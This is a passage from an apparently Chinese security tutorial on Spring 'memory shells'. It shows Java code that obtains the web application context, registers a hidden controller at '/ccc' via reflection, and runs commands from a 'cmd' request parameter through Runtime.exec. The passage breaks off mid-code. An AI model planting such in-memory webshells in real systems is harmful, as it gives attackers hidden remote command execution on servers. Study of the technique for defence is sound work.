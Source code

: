 ```java
    public String say(Model model){
        model.addAttribute("name","aaron");
        return "hello";
    }
}

```
![image.png](Spring 框架内存马入门.assets/2023_05_19_10_30_49_92yIG53o.png)

### 获取当前代码运行的上下文环境（dispatcherServlet）
> 在这里我通过使用[LandGrey@观星实验室](https://www.anquanke.com/post/id/198886)的方法获取到Root WebApplicationContext，注入也能成功，但是会报错，提示没有dispatcherServlet，也就是不能分发给对应的Controller，由于Root WebApplicationContext是无法访问到Child WebApplicationContext 定义的bean，applicationContext.xml全局配置也没有搞定，希望有大佬可以给我applicationContext.xml的相关配置，以及如何成功利用

这里使用[LandGrey@观星实验室](https://www.anquanke.com/post/id/198886)大佬的后两种获取Child Context的方法
#### RequestContextUtils
```java
WebApplicationContext context = RequestContextUtils.getWebApplicationContext(((ServletRequestAttributes)RequestContextHolder.currentRequestAttributes()).getRequest());
```
这里使用`RequestContextUtils`中的`WebApplicationContext getWebApplicationContext(ServletRequest request)`方法，通过 `ServletRequest`类的实例来获取WebApplicationContext
当拿到了这个`WebApplicationContext`之后，就需要在当前的context里注册Controller，然后给这个Controller绑定对应可解析的url，以及方法
```java
public class InjectController {
    public InjectController() {
        // 从context中获得 RequestMappingHandlerMapping 的实例
        RequestMappingHandlerMapping requestMappingHandlerMapping = context.getBean(org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping.class);
        // 通过反射获得自定义 controller 中的 Method 对象
        Method method = Class.forName("com.spring.Controller.InjectController").getMethod("test");
        // 定义访问 controller 的 URL 地址
        PatternsRequestCondition url = new PatternsRequestCondition("/ccc");
        // 定义允许访问 controller 的 HTTP 方法（GET/POST）
        RequestMethodsRequestCondition ms = new RequestMethodsRequestCondition();
        // 在内存中动态注册 controller
        RequestMappingInfo info = new RequestMappingInfo(url, ms, null, null, null, null, null);
        com.spring.Controller.InjectController injectToController = new com.spring.Controller.InjectController();
        requestMappingHandlerMapping.registerMapping(info, injectToController, method);
    }
    public void test(){
        xxx
    }
}
```
在test方法中，需要实现我们的webshell的逻辑，首先需要完善webshell
```java
java.lang.Runtime.getRuntime().exec("command");
```
然后在将command变成我们可控制的，也就是传入可控参数，这时就需要获取当前的request和response，command 为`request.getParamer("cmd")`就为可控参数了，所以就是获取request，response的问题了，这里我们使用spring提供获取request，response的方法，这里使用如下方法
```java
HttpServletRequest request = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getRequest();
HttpServletResponse response = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getResponse();
```
test方法可以使用如下表示
```java
public void test() throws IOException {
        // 获取request和response对象
```